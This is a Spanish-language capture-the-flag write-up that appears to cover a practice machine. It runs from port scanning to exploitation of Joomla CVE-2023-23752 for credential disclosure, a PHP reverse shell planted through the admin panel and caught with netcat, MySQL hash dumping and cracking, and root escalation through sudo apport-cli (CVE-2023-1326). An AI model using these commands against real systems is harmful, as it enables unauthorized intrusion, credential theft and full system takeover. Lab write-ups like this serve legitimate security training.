








# Initial Recon

Comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap 10.10.11.242 -sS --open --min-rate 3000 -p- -n -Pn -oN Nmapscan

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
> nmap -p22,80 -sVC 10.10.11.242 -Pn -oN versionScan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

sólo tenemos 2 puertos abiertos, así que echemos un vistazo a la página web

# Web


Después de buscar en toda la web, fuzz subdominios:

```bash
> gobuster vhost -u http://devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt

Found: dev.devvortex.htb (Status: 200) [Size: 23221
```

encontramos otra página web:




Viendo las tecnologías de la web, intentamos hacer fuzzing para encontrar el panel de login de joomla.

```bash
> gobuster dir -u http://dev.devvortex.htb -w /usr/share/SecLists/Discovery/Web-Content/common.txt

/robots.txt           (Status: 200) [Size: 764]
/README.txt           (Status: 200) [Size: 764]
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]          
/api/experiments      (Status: 406) [Size: 29]                                               
/api/experiments/configurations (Status: 406) [Size: 29]                                     
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
```

en el README.txt vemos lo siguiente:

http://dev.devvortex.htb/README.txt



Esta es la versión, busquemos vulnerabilidades o exploits.

Busca: Joomla 4.2 exploit

## CVE-2023-23752 - Exploit

Encontramos un exploit: [Exploit DB - CVE-2023-23752](https://www.exploit-db.com/exploits/51334)

Descargamos el exploit e instalamos las librerías necesarias



```bash
> sudo gem install docopt httpx json paint
```

Al ejecutar el exploit tenemos los siguientes resultados:

```bash
ruby exploit.rb http://dev.devvortex.htb
```



## CVE-2023-23752 - Manual

Ejecutaremos la misma vulnerabilidad, pero manualmente, para entenderlo mejor:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#api-unauthenticated-information-disclosure

```bash
curl -s 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | ./jq-linux-amd64 | grep -E 'user|password'
```

También encontramos información que podría sernos útil en el mismo archivo



## CVE-2023-23752 - My Script

También he creado un script para esto, así que tienes más opciones: https://github.com/mil4ne/CVE-2023-23752-Joomla-v4.2.8/

Con estas credenciales intentamos entrar en el panel de Joomla.

## Get shell



una vez dentro, vamos a la sección system.

Ahora solo tenemos que editar uno de los archivos de la web o del panel y ponerles php revshell, usaremos este:



Accedemos al fichero que hemos editado, para recibir el shell a nuestro puerto de escucha

```bash
nc -nlvp 9001              
listening on [any] 9001 ...
connect to [10.10.14.145] from (UNKNOWN) [10.10.11.242] 41690
Linux devvortex 5.4.0-167-generic #184-Ubuntu SMP Tue Oct 31 09:21:49 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:47:51 up  4:52,  0 users,  load average: 0.57, 0.34, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(w ww-data) gid=33(www-data) groups=33(www-data)
```

# Lateral Movement

## Mysql Database

Previamente habíamos visto que existía una base de datos mysql, así que intentamos conectarnos:

```bash
> mysql -u lewis -p 
```

```bash
show databases;
```

```bash
use joomla;
```

```bash
show tables;
```

```bash
select * from sd4fg_users
```

Después de mirar todo el contenido de la base de datos, encontramos el siguiente hash del usuario logan:

```bash
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

## Crack Hash
Identificamos el hash y crackeamos con john



pasamos al usuario logan

```bash
> su logan
```

# Privilege Escalation

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

## CVE-2023–1326 - Privilege Escalation - apport-cli 2.26.0

En esta parte voy a mostrarte 2 formas de escalar privilegios:

    > apport-cli Escalada de Privilegios

    > creamos un archivo sh y lo ejecutamos con el apport-cli

```bash
logan@devvortex:/tmp$ echo 'Hello apport-cli' > exp.sh
logan@devvortex:/tmp$ chmod +x exp.sh
logan@devvortex:/tmp$ sudo apport-cli -c exp.sh less
```

Seleccionamos V para la opción de ver informe y cuando diga ’:’, insertamos el shell !/bin/bash

```bash
What would you like to do? Your options are:
  S: Send report (1.6 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
<HERE YOU GET "less" command output type "!/bin/bash">
```

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```